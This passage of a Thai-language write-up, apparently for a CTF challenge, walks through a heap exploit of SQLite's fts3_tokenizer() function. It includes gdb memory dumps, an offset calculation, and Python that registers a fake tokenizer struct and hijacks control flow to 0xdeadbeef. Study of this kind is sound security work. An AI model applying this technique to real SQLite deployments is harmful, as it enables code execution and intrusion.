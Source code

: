 จะเจอ address ที่มีค่าเป็น `ANYAANYA` แล้ว จากนั้นให้ใช้อันท้าย ๆ เพราะว่าจะมีโอกาศภูก overwrite ยาก ลองส่องดูว่าตรงกับ struct ที่เรายัดไว้ไหม

```
(gdb) x/20xg 0x55e68b6361a8 - 48
0x55e68b636178: 0x00000000deadbeef 0x00000000deadbeef
0x55e68b636188: 0x00000000deadbeef 0x00000000deadbeef
0x55e68b636198: 0x00000000deadbeef 0x41594e4141594e41
0x55e68b6361a8: 0x41594e4141594e41 0x0000000000000000
0x55e68b6361b8: 0x00000000deadbeef 0x00000000deadbeef
0x55e68b6361c8: 0x00000000deadbeef 0x00000000deadbeef
0x55e68b6361d8: 0x00000000deadbeef 0x41594e4141594e41
0x55e68b6361e8: 0x41594e4141594e41 0x0000000000000000
0x55e68b6361f8: 0x00000000deadbeef 0x00000000deadbeef
0x55e68b636208: 0x00000000deadbeef 0x00000000deadbeef
(gdb) x/6xg 0x55e68b6361b0
0x55e68b6361b0: 0x0000000000000000 0x00000000deadbeef
0x55e68b6361c0: 0x00000000deadbeef 0x00000000deadbeef
0x55e68b6361d0: 0x00000000deadbeef 0x00000000deadbeef
```

ตรงจากนั้นก็หา offset ระหว่าง base heap และตัว object ของเราซะ (แนะนำว่าให้เป็นอันท้าย ๆ เพราะจะได้ไม่ถูก overwrite ผมติดตรงนี้นานมาก มารู้ทีหลังว่ามันโดนคำสั่งอื่นแย่งไปใช้ได้)

```
(gdb) p/x 0x55e68b6361b0 - 0x55e68b514000
$1 = 0x1221b0
```

หลังจากได้ offset แล้วก็ยัดเข้า function `fts3_tokenizer()` เลยดังนี้

```python
# Calc from GDB
heap_offset = 0x1221b0
shell_struct_addr = heap_addr + heap_offset
print("Struct Addr:", hex(shell_struct_addr))
shell_struct_addr_hex = struct.pack("<Q", shell_struct_addr).hex()

execute(f"select hex(fts3_tokenizer('shell', x'{shell_struct_addr_hex}'));")
```

สุดท้ายก็แค่ trick ให้ sqlite เรียก function `xCreate` ก็พอแล้ว เราก็จะ take over control flow ไปที่ `0xdeadbeef` ได้แล้ว

```python
s.sendline('create virtual table shell using fts3(tokenize=shell);')
s.interactive()
```

ลอง debug ดูเหมือนเดิม เรียบร้อยเด้งไป `0xdeadbeaf` แล้ว

```
root@56bddfab4226:/data# ps -A
    PID TTY          TIME CMD
      1 ?        00:00:00 sh
      7 ?        00:00:00 socat
   2812 pts/2    00:00:00 bash
   2839 pts/0    00:00:00 bash
   2897 ?        00:00:00 socat
   2898 ?        00:00:00 python
   2918 ?        00:00:00 socat
   2919 ?        00:00:00 python
   2942 ?        00:00:00 socat
   2943 ?        00:00:00 python
   2944 pts/0    00:00:00 ps
root@56bddfab4226:/data# gdb -q -p 2943
Attaching to process 2943
(gdb) c
Continuing.
```